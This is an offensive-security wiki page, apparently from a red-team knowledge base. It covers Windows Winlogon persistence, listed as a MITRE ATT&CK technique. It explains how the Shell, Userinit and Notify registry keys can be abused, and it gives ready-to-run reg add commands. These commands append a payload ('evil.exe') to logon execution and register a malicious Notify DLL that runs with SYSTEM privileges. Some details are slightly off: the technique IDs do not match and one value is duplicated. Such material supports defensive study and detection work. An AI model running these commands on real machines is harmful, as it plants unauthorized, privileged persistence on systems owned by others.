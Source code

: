 ```yaml
---
description: >-
  MITRE ATT&CK™ Boot or Logon Autostart Execution: Winlogon Helper DLL -
  Technique T1547.001
---
```


# Winlogon Persistence

## Theory

Winlogon is a critical Windows component responsible for handling user logins, loading user profiles, and managing session behaviors post-authentication. Attackers can abuse **Winlogon registry keys** to establish persistence by configuring **malicious executables or DLLs** to execute during the login process.

#### **Registry Keys & Their Behaviors:**

The following keys can be modified for persistence:

* **`Shell`** – Specifies the user shell (default: `explorer.exe`). Replacing this value with a malicious executable ensures it is launched instead of (or alongside) Explorer.
* **`Userinit`** – Defines the path of `userinit.exe`, which is responsible for setting up the user environment after login. Adding a malicious binary here ensures execution before the user's desktop loads.
* **`Notify`** – Points to a DLL that is loaded into Winlogon’s process for handling session-related events (e.g., lock, unlock, login, logout). A malicious DLL here will be loaded by `winlogon.exe`, often running with **SYSTEM privileges**.

## Practice

{% hint style="success" %}
Registry entries under `HKU/HKCU` will only apply to the user.\
Registry entries under `HKLM` will apply to everyone
{% endhint %}

{% hint style="danger" %}
If we'd replace any of the executables with some reverse shell, we would break the logon sequence, which isn't desired. **Interestingly, you can append commands separated by a comma, and Winlogon will process them all**.
{% endhint %}

{% tabs %}
{% tab title="Userinit " %}
We may edit the `Userinit` key to make our payload executed during Windows logon

* HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit&#x20;
* HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit&#x20;

```bash
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "C:\Windows\System32\Userinit.exe, C:\Windows\evil.exe" /f
```
{% endtab %}

{% tab title="Shell" %}
We may edit the `Shell` key to make our payload executed during Windows logon

* HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell
* HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell

```bash
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Shell /d "explorer.exe, C:\Windows\evil.exe" /f
```
{% endtab %}

{% tab title="Notify" %}
We may edit the `Notify` key to make our payload executed during Windows logon. This registry key is typically found in older operating systems **(prior to Windows 7)** and it points to a notification package DLL file which handles Winlogon events. Replacing DLL entries under this registry key with an arbitrary DLL will cause Windows to execute it during logon.

* HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify

Add the following values and keys to the registry. These values communicate to Winlogon.exe and let it know which procedures to run during an event notification. Add as few or as many notification events as needed.

```

HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\NameOfProject
       \Asynchronous  REG_DWORD  0
       \Dllname       REG_SZ     NameOfDll.dll
       \Impersonate   REG_DWORD  0
       \Logon         REG_SZ     StartProcessAtWinLogon
       \Logoff        REG_SZ     StopProcessAtWinLogoff
       \...           REG_SZ     NameOfFunction
```

{% hint style="success" %}
The DLL will be executed with SYSTEM level privileges

The DLL should be in %NTROOT%\system32
{% endhint %}

```bash
#Create Project in Notify
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\EvilLogon"

#Create subkeys
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\EvilLogon" /t REG_DWORD /v Asynchronous /d 0
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\EvilLogon" /t REG_DWORD /v Asynchronous /d 0
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\EvilLogon" /t REG_SZ /v Dllname /d "evillogon.dll" 
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\EvilLogon" /t REG_SZ /v Logon /d "StartProcessAtWinLogon"
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\EvilLogon" /t REG_SZ /v Logoff /d "StartProcessAtWinLogon"
...
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://attack.mitre.org/techniques/T1547/004/" %}
